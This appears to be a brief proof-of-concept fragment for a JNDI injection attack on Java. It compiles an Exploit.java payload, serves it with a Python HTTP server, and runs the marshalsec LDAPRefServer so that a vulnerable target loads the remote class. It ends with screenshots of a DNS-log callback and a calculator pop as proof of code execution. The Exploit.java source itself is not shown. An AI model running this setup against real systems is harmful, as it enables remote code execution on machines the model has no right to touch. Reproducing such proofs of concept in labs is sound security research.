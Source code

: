 javac.exe .\Exploit.java

python3.exe -m http.server 8800

java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8800/#Exploit

![image](./dnglog.png)

![image](./calc.png)
